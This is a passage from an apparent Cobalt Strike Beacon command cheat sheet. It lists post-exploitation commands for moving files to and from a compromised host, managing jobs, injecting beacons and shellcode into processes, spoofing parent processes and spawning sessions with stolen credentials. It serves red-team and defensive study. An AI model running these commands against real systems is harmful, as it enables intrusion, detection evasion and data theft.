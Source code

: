 #### 3.1.2.5 - Upload and Download Files

* Upload file

`beacon> upload /path/to/file.txt C:\path\to\upload_file.txt`

* Download file

`beacon> download C:\path\to\download_file.txt`

* Check file downloads

`beacon> downloads`

* Cancel file download(s)

`beacon> cancel <file | *>`

#### 3.1.2.6 - Jobs Queue

* Queue jobs

`beacon> jobs`

* Kill job ID

`beacon> jobkill <jid>`

### 3.1.3 - Process Manipulation

#### 3.1.3.1 - Inject Process

* Inject to spawn beacon session

`beacon> inject <pid> <architecture> <listener>`

* Run powershell through another process

`beacon> psinject <pid> <arch> <cmdlet> [args]`

#### 3.1.3.2 - Inject Shellcode

* Inject shellcode

`beacon> shinject <pid> /path/to/shellcode.bin`

* Spawn shellcode and tunnel

`beacon> spunnel <pid> /path/to/shellcode.bin`

#### 3.1.3.3 - Spoof Process

* Spoof a parent process that is ready to spawn a new child process

`beacon> ppid <ppid>`

#### 3.1.3.4 - Spawn Beacon Session

`beacon> spawnas <username> <password>`

`beacon> spawnto <arch> <path> <args>`
